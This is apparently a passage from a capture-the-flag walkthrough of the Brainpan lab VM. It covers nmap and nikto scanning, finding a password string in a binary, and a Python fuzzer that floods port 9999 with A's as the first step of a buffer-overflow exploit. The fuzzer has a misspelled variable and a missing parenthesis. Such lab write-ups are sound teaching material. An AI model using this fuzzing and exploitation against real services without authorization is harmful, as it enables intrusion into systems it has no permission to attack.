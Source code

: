 ```
Uptime guess: 8.367 days (since Tue Feb 25 05:58:00 2020)
Network Distance: 0 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
```

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/welcome-to-brainpan.png)

`nikto -h 192.168.56.106`

* custom application running in Wine on port 9999
* python SimpleHTTPServer on port 10000

**Nikto** might be helpful at this moment

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/nikto-scan-output.png)

It tells us about the mysterious `bin` directory
Let's browse the website and look inside it

`192.168.56.106:10000/bin/`

A suspicious app binary is waiting there for us - maybe it's the key for solving this puzzle? 

We won't know unless we check it out. Let's run the `strings` command to view the hardcoded strings within the binary

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/strings-output.png)

The `shitstorm` line instantly draws the attention - it may be a password to a certain service!
We are gonna give it a try:

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/192.168.56.106:9999.png)

It looks useless. I also used telnet but still nothing, the application responded with the following: Connection closed by foreign host.

The app behaves as if it were a kind of a server. After opening the socket it waits for connection, checks the input and then closes.

## 2. Some fuzzing & exploitation

Preinstalled Immunity Debugger on Windows 32-bit VM may come in handy here.

**In the first round** we're gonna send a long, repeated string of A's with a simple fuzzer visible below. By running the script, the terminal will tell us whether providing sufficiently long input can crash the app:

```
import socket

for i in range(30):
  s = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
  s.connect(("192.168.56.105",9999) # mind to change the IP address :-)
  payloaod = int(i)*("A"*100)
  s.send(payload+"\r\n")
  print "[*] Sending buffer data with " + str(len(str(payload))) + " A's\r\n"
  s.close()
```
